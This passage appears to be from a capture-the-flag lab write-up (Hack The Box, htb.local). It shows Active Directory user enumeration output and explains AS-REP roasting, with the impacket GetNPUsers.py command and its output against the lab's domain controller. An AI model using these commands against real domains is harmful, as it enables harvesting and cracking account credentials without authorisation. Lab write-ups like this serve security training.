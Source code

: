 ```none
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

After enumerating all users, I compiled a wordlist of all existing users.

## Enumeration (Finding AS-REP-roastable Users in Active Directory)

AS-REP-roastable users are those that don't require Kerberos preauthentication. When Kerberos preauthentication is disabled, you can intercept the the encrypted part in the AS-REP which has a secret that is encrypted with the user's password. That secret can then be brute forced offline to get the user's password.  You can read more upon the subject from [harmj0y's blog](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/).

Using impacket's `GetNPUsers.py` will figure out with users have Kerberos preauthentication disabled and will attempt to translate the encrypted secret into a piece of information that can be cracked with an offline brute force attack:

```none
$ python3 ~/tools/impacket/examples/GetNPUsers.py -usersfile users.txt -format hashcat -dc-ip 10.10.10.161 htb.local/
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set
```